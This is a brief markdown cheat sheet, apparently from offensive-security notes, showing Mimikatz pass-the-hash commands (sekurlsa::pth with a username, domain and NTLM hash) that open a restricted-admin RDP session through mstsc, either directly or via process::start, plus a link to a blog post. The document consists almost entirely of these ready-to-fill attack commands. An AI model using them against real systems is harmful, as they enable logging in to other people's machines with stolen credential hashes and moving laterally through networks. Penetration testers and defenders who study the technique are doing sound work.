 # Mimikatz

Pass the hash and run RDP remote session 

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"mstsc /v:<IP> /restrictedadmin"
```

Pass the hash then execute process

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash>

mimikatz # process::start "mstsc /v:<IP> /restrictedadmin"
```

---
## References

- [ederml's Blog: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)